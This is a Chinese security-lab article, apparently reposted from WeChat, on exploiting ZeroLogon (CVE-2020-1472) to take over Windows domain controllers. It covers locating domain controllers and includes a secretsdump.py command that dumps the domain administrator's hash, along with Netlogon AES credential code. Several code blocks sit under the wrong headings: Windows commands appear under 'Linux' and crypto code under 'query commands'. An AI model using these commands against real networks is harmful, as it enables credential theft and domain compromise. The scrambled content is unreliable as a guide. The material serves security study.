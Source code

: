 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/S9Hwb1-lLhh4QfI4b551SQ)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5otyMkgzRw69swH7a5S83wkV2bs7wnUlOsibEM98KsUuvLBcicmbUNj0dMB6ZtdRsNHvJ3rdVdkhXQ/640?wx_fmt=png)

作者：daiker & wfox @360Linton-Lab

在今年 9 月份，国外披露了 CVE-2020-1472(又被叫做 ZeroLogon) 的漏洞详情，网上也随机公开了 Exp。是近几年 windows 上比较重量级别的一个漏洞。通过该漏洞，攻击者只需能够访问域控的 445 端口，在无需任何凭据的情况下能拿到域管的权限。该漏洞的产生来源于 Netlogon 协议认证的加密模块存在缺陷，导致攻击者可以在没有凭证的情况情况下通过认证。该漏洞的最稳定利用是调用 netlogon 中 RPC 函数 NetrServerPasswordSet2 来重置域控的密码，从而以域控的身份进行 Dcsync 获取域管权限。

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

0x00 漏洞的基本利用

首先来谈谈漏洞的利用。

### **1\. 定位域控**

在我们进入内网之后，首先就是快速定位到域控所在的位置。下面提供几种方法

1、批量扫描 389 端口。

如果该机器同时开放着 135,445,53 有很大概率就是域控了，接下来可以通过 nbtscan，smbverion，oxid，ldap 来佐证

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5otyMkgzRw69swH7a5S83wK5IziaAp2nMRIY4yC3eJe9EGrmQSTOYfuOHkmy5UxVice6vbryyUQiaew/640?wx_fmt=png)

2、如果知道域名的话，可以尝试通过 dns 查询

当然这种也有很大的偶然性，需要跟域共享一套 DNS，在实战中有些企业内网会这样部署，可以试试。

Linux 下命令有

```
net time /domainnet group "Domain controllers" /domain dsquery server -o rdnadfind -sc dclistNltest /dclist:域名
```

Windows 下命令有

```
python secretsdump.py   test.local/DC2016\\$@DC2016    -dc-ip  192.168.110.16   -just-dc-user test\\\\administrator -hashes 31d6cfe0d16ae931b73c59d7e0c089c0:31d6cfe0d16ae931b73c59d7e0c089c0
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5otyMkgzRw69swH7a5S83wAGtzIeFOH5clBcrk6hia5HhSBctSddy2M8cdCzgREEF3ibNf8hQGzeuQ/640?wx_fmt=png)

3、如果我们控制了一台域成员机器，可以直接查询。

以下是一些常见的查询命令

```
\# Section 3.1.4.4.1
def ComputeNetlogonCredentialAES(inputData, Sk):
    IV='\\x00'\*16
    Crypt1 = AES.new(Sk, AES.MODE\_CFB, IV)
    return Crypt1.encrypt(inputData)
```

